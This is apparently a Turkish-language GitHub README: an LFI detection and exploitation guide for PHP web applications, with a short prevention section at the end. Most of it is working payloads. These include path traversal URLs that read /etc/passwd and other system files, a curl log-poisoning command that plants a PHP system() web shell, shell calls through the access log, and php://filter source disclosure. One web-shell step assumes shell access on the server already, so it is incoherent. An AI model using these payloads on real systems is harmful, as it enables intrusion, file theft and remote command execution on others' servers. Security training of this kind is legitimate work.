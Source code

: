 # LFI (Local File Inclusion) Zafiyeti Tespit ve İstismar Rehberi

## İçindekiler
1. [LFI Nedir?](#lfi-nedir)
2. [LFI Zafiyetinin Tespiti](#lfi-zafiyetinin-tespiti)
    - [Basit Testler](#basit-testler)
    - [Dosya Dahil Etme Denemeleri](#dosya-dahil-etme-denemeleri)
3. [LFI Zafiyetinin İstismarı](#lfi-zafiyetinin-istismarı)
    - [Kritik Dosyalara Erişim](#kritik-dosyalara-erişim)
    - [Log Zehirleme (Log Poisoning)](#log-zehirleme-log-poisoning)
    - [PHP Wrapper Kullanımı](#php-wrapper-kullanımı)
    - [Path Traversal Teknikleri](#path-traversal-teknikleri)
    - [Web Shell Yükleme](#web-shell-yükleme)
4. [LFI Korunma Yöntemleri](#lfi-korunma-yöntemleri)
5. [Kullanışlı Komutlar ve Referanslar](#kullanışlı-komutlar-ve-referanslar)

---

## LFI Nedir?

**LFI (Local File Inclusion)**, saldırganların bir uygulamanın sunucusunda yerel dosyaları okumasına, çalıştırmasına veya başka yollarla istismar etmesine olanak tanıyan bir web uygulaması zafiyetidir. Genellikle, dosya içeriklerini kullanıcı girdisine dayalı olarak dahil eden PHP uygulamalarında görülür.

---

## LFI Zafiyetinin Tespiti

### Basit Testler
LFI zafiyetini tespit etmek için aşağıdaki gibi giriş değerleri kullanılabilir:

```http
http://target.com/index.php?page=../../../../etc/passwd
http://target.com/index.php?page=../../../var/log/apache2/access.log
```

Test sırasında aşağıdaki göstergelere dikkat edilmelidir:
- Sunucunun hata döndürmesi (500 Internal Server Error).
- Dosya içeriği görünüyorsa zafiyet mevcuttur.

### Dosya Dahil Etme Denemeleri
Dosya içeriklerinin başarılı bir şekilde çağrılabildiğini doğrulamak için şu dosyalar kullanılabilir:

- **Linux Sistem Dosyaları**:
  - `/etc/passwd`
  - `/proc/self/environ`
  - `/var/log/apache2/access.log`

- **Windows Sistem Dosyaları**:
  - `C:\Windows\System32\drivers\etc\hosts`
  - `C:\Windows\win.ini`

---

## LFI Zafiyetinin İstismarı

### Kritik Dosyalara Erişim
**Linux**
```bash
http://target.com/index.php?page=../../../../etc/passwd
```

**Windows**
```bash
http://target.com/index.php?page=../../../../windows/system32/drivers/etc/hosts
```

### Log Zehirleme (Log Poisoning)
Log dosyalarına kötü amaçlı kod yerleştirerek shell elde etmek için kullanılır.

1. **Log Dosyasını Belirleme**:
   ```bash
   http://target.com/index.php?page=../../../../var/log/apache2/access.log
   ```

2. **Log Zehirleme Örneği**:
   Terminalden aşağıdaki komutla zararlı kod eklenir:
   ```bash
   curl "http://target.com" -A "<?php system($_GET['cmd']); ?>"
   ```

3. **Shell Elde Etme**:
   ```bash
   http://target.com/index.php?page=../../../../var/log/apache2/access.log&cmd=id
   ```

### PHP Wrapper Kullanımı
Base64 veya filtreleme yöntemlerini bypass etmek için PHP wrapper'lar kullanılabilir.

```bash
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Base64 ile dönen çıktıyı decode edin:
```bash
echo "Base64Kod" | base64 -d
```

### Path Traversal Teknikleri
Path traversal ile `/etc/passwd` gibi dosyalara erişim için farklı yollar denenebilir:

```bash
http://target.com/index.php?page=....//....//....//etc/passwd
http://target.com/index.php?page=....//....//var/log/apache2/access.log
```

### Web Shell Yükleme
1. **Log Poisoning Yöntemiyle**:
   ```bash
   echo "<?php system($_GET['cmd']); ?>" >> /var/log/apache2/access.log
   ```
   Shell çağırma:
   ```bash
   http://target.com/index.php?page=../../../../var/log/apache2/access.log&cmd=id
   ```

2. **PHP Kodlarını Dahil Etme**:
   ```bash
   http://target.com/index.php?page=/tmp/php-shell.php
   ```

---

## LFI Korunma Yöntemleri
1. **Kullanıcı Girdisini Doğrulayın**:
   - Kullanıcı girdilerini sanitize ederek path traversal engellenebilir.

2. **Dosya Dahil Etmeyi Sınırlandırın**:
   - Sabit whitelist değerleri kullanarak yalnızca izin verilen dosyalar dahil edilmelidir.

3. **PHP `open_basedir` Kullanımı**:
   - PHP'nin erişebileceği dizinleri sınırlayın.

4. **Hataları Gizleyin**:
   - PHP hatalarını gizleyerek saldırganların bilgi toplamasını zorlaştırın.

---

## Kullanışlı Komutlar ve Referanslar

| Komut | Açıklama |
|-------|----------|
| `curl` | HTTP isteği gönderir. |
| `base64` | Base64 kodlaması çözer. |
| `wget` | Uzaktan dosya indirir. |

---

**Referanslar**:
- [OWASP LFI Cheat Sheet](https://owasp.org/www-project-cheat-sheets/)
- [PayloadAllTheThings - LFI Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
